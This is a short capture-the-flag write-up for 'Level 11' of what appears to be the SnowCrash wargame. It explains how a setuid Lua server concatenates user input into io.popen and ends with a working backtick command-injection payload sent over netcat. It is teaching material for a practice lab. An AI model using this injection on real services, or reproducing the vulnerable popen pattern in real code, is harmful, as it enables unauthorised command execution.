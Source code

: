 # Level 11

## The challenge

The folder contain a lua script named level11.lua owned by flag11. setuid and setgid bits are set.

```sh
$ ls -al
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
$
```

We have a simple server in lua listening on port 5151.
When we interact with him with netcat, he ask a password. 
```sh
$ netcat 127.0.0.1 5151
Password: 
```

When we look inside the code we cans see that te result is sent in hash witout any verification.
The hash function send the result to io.popen by concatenating chaines and finally execute the code.
```lua
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  ...
end

while 1 do
	...
	local l, err = client:receive()
	if not err then
		print("trying " .. l)
		local h = hash(l)
		...
	end
	...
end
```

So we can use the command substitution of bash (`) to remotely execute code by sending a piece of code who will be inject in the popen.

```sh
$ level11@SnowCrash:~$ netcat 127.0.0.1 5151
Password: `getflag > /tmp/key`
```